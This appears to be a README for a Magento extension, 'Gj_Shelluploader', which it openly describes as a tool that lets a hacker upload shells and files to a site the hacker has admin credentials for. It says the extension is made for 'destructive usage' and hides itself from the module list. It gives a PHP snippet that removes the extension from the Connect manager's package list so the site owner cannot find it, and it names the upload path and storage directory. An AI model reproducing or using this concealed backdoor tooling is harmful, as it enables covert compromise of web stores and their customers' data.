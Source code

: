 # Gj_Shelluploader-1.0.0
Extension helps hacker to upload shell/files in Magento

Dependency: Admin Panel Credentials(To install extension.).

As this extension is made for destructive usage(As if we dont want, site owner to know our extension is installed.).

Extension wont be found on admin > system > configuration > advanced > disable modules output(installed modules list even if its installed.).

Even if on Magento connect manager or downloader you can find our extension if you wanna hide it from there,
you can edit magento-root/downloader/Maged/Model/Connect.php there find function getAllInstalledPackages()
just paste below code at the last & before return statement

if(array_key_exists('Gj_Shelluploader',$packages['community']))
{ unset($packages['community']['Gj_Shelluploader']); }

To Upload shell/files, after installing extension go to yoursiteurl/index.php/shelluploader or directely yoursiteurl/shelluploader

Uploaded files will be stored "gjthedj" directory(yoursiteurl/gjthedj/filename.).
